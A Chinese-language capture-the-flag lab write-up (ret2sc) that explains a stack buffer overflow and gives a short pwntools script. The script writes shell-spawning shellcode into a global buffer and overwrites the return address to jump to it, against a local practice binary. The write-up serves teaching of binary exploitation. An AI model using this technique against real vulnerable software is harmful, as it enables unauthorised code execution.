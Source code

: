 # Lab3 ret2sc

## 先備知識

### setvbuf()

`int setvbuf(FILE *stream, char *buffer, int mode, size_t size)`

定義了stream的buffer怎麼被緩衝

- buffer 分配的緩衝區，如果是NULL會自動分配
- mode 0: FUll  buffering、1: Line buffering、2: No buffering
- size 單個緩衝區大小

這裡使用setvbuf(stdout, 0, 2, 0)設定為無緩衝

### Global variable

global variable的address會是固定的

### how to find offest

from pwn import *

cyclic(100)

cyclic_find("<return overflow string>")

### nm 指令

顯示關於對象文件、可執行文件以及對象文件庫裏的符號信息。
故我們可以用 `nm ./ret2sc` 找到name這個global variable的位置

或是用`gdb% x/x &name`也可以

## Solve

### 分析

1. 先用checksec檢查，發現NX是關的，代表他是可寫且可執行
2. 有兩個input，其中`name`為全域變數存放在BSS區段，而`buf`則存放在stack中
3. 利用pwn找到offset是32 ( 到return的距離 )

### 解題策略

將shellcode塞在name中，並且利用BOF將return的值蓋掉，跳轉到name的地方。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./ret2sc')
name = 0x804a060 # address of name (BSS) where we are going to placed return 
r.recvuntil(":")
r.sendline(asm(shellcraft.sh())) # /bin/shell shellcode which is 24 bytes
r.recvuntil(":")
payload = "a"*32 # buffer size 
payload += p32(name) # overflow return 
r.sendline(payload)

r.interactive()
```
